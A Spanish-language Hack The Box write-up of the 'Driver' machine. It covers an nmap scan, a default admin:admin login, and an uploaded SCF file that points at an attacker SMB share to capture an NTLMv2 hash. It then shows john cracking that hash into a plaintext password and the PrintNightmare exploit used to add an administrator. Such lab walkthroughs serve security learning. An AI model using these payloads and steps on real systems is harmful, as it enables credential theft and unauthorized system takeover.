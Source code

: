 ```yaml
---
layout: single
title: Driver - Hack The Box
excerpt: "Para obtener acceso, hay una página web de la impresora que permite a los usuarios cargar en un recurso compartido de archivos. Subiré un archivo scf, que hace que cualquier persona que mire el recurso compartido en Explorer intente la autenticación de red en mi servidor, donde capturaré y descifraré la contraseña del usuario. Esa contraseña funciona para conectarse a WinRM. Para escalar, puedemos explotar un controlador de impresora PrintNightmare, y mostraré ambos."
date: 2022-09-29
classes: wide
header:
  teaser: /assets/images/htb-writeup-driver/driver_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - scf
  - printNightmare(privilege escalation)
---
```


![](/assets/images/htb-writeup-driver/driver_logo.png)


## Reconocimiento


```bash
❯ nmap -sCV -p80,135,445,5985 10.10.11.106 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 22:07 -03
Nmap scan report for 10.10.11.106
Host is up (0.24s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-09-29T23:07:36
|_  start_date: 2022-09-29T23:03:34
|_clock-skew: mean: -1h59m45s, deviation: 0s, median: -1h59m46s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.91 seconds
```

En el puerto 80 se nos presenta un panel login probamos una credencial tipica(admin:admin) y logramos pasar.



![](/assets/images/htb-writeup-driver/login.png)


En la pagina web nos ofrecen subir un archivo, entonces subimos un archivo scf para obtener un hash.

![](/assets/images/htb-writeup-driver/scf.png)

```bash

[Shell]
Command=2
IconFile=\\<ip>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Y obtenemos un hash.

![](/assets/images/htb-writeup-driver/hash.png)


Procedemos a crackear el hash.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2022-09-29 22:16) 16.66g/s 546133p/s 546133c/s 546133C/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
Dichas credenciales nos sirve para ingresar a la maquina.

![](/assets/images/htb-writeup-driver/conectamos.png)

Una vez dentro del equipo con get-process vemos que esta corriendo un servicio spoolt, procedemos a buscar un exploit y nos encontramos un script en powershell https://github.com/calebstewart/CVE-2021-1675. Agregamos esta linea de codigo que se nos pide y lo ejecutamos.

![](/assets/images/htb-writeup-driver/administrator.png)

Y se nos agrego un usuario como administrador.

![](/assets/images/htb-writeup-driver/usuario.png)
